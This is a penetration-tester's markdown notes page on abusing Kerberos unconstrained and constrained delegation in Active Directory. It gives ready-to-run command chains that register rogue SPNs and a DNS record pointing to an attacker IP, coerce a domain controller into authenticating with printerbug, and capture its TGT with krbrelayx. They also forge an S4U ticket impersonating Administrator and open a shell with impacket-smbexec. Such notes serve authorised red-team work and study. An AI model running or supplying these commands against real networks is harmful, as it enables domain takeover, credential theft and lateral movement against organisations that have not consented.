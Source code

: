 # [Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

## Questions to ask yourself
  *  Any user/computer objects with unreadable [delegation attributes](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions)?
  *  Any objects with delegation privileges [kerberoastable](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)?
  *  What services have service principal names configured?
      *  What users have high privileges over those services?

## Things to remember
  *  Unconstrained delegation requires non-default configuration for user objects
  *  Add FQDNs to `hosts` file or point to name server to avoid DNS errors
  *  All examples here [covered in Red XOR Blue blog post](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

## Useful tools
  *  [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) toolkit for abusing unconstrained delegation
  *  [`impacket-getST`](https://github.com/fortra/impacket/blob/master/examples/getST.py) for impersonating users via constrained delegation

## Unconstrained delegation
  *  KUD service accounts are provided a TGT of any user that auths via SPN
      *  Any method of coerced authentication can often be used... get creative!
  *  `krbrelayx` for abusing user accounts with KUD (relies on [`Write servicePrincipalName`](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/register-a-service-principal-name-for-kerberos-connections?view=sql-server-ver16))
      *  Create evil SPNs for service account using non-existent hostname
      *  Create evil DNS record matching evil SPNs pointing to attacker IP
      *  Coerce authentication to evil SPNs and capture TGT
  *  Computer accounts with KUD are [easily abused by extracting delegated TGTs from memory](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
      *  Coerce authentication to default SPNs such as HOST/CIFS

// Unconstrained delegation abuse via service (user) account
```
git clone https://github.com/dirkjanm/krbrelayx && cd krbrelayx
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s host/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s cifs/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 dnstool.py -u corp.local\\sqlsvc -p 'password' -r FAKE.CORP.LOCAL -a add -d [ATTACKER IP] DC.CORP.LOCAL
python3 krbrelayx.py --krbsalt CORP.LOCALsqlsvc --krbpass 'password'
python3 printerbug.py corp.local/sqlsvc:'password'@DC.CORP.LOCAL FAKE.CORP.LOCAL
```

## [Constrained delegation](https://harmj0y.medium.com/s4u2pwnage-36efe1a2777c)
  *  KCD service accounts obtain forwardable TGS differently depending on configuration
      *  `Any authentication protocol` relies on [S4U extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/8ee85a47-7526-4184-a7c5-25a5e4155d7d?redirectedfrom=MSDN) to obtain forwardable TGS as any user
      *  `Kerberos only` [limits S4U2Self usage](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained#without-protocol-transition), forwardable TGS are provided by users during auth
  *  `impacket-getST` for obtaining impersonated service tickets via S4U
      *  `impacket` suite will [attempt to modify](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) `sname` during target/ticket service mismatch

```
impacket-getST -spn 'WWW/SERVER.corp.local' -impersonate 'Administrator' corp.local/sqlsvc:'password' -dc-ip 10.0.0.1
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-smbexec corp.local/Administrator@SERVER.corp.local -k -no-pass -dc-ip 10.0.0.1
```
